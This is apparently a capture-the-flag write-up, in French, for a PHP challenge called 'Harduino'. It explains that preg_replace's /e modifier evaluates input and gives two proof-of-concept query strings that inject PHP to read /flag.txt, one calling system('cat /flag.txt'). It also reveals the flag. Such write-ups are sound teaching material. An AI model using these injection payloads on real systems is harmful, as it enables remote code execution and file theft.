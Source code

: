 # Harduino
## Challenge

Il semblerait que vous ayez trouvé un étrange gestionnaire de code...  
Le flag se trouve dans le fichier /flag.txt

## Résolution

Le modifieur `/e` effectue un eval avant de remplacer.
Il faut également échapper les quotes qui sont ajoutées avant le preg replace.

POC :

```
?message=" . file_get_contents("/flag.txt") . "
?message=" . system("cat /flag.txt") . "
```

Le moteur Twig permet également une SSTI.

## Setup

```
docker-compose up --build -d
```

## Flag

```
PHACK{W4SNT_DAT_HARD_AFT3R_ALL}
```
